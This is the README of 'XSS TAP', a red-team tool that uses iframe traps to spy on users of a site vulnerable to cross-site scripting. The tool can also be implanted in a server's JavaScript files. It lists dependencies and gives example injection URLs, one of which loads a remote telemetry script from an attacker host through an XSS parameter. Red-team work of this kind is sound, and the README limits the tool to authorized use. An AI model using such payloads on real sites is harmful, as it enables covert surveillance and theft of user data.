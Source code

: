 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

Ok, this is getting refactored into both an iframe trap payload, and an implant
that can be dropped into an application server's javascript files. 

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors
pyopenssl

Generator ones:
dataframe_image
fpdf
progressbar


HTML Parser:
bs4




https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://192.168.2.61:8444/lib/telemlib.js%27%3E%3C/script%3E





https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E

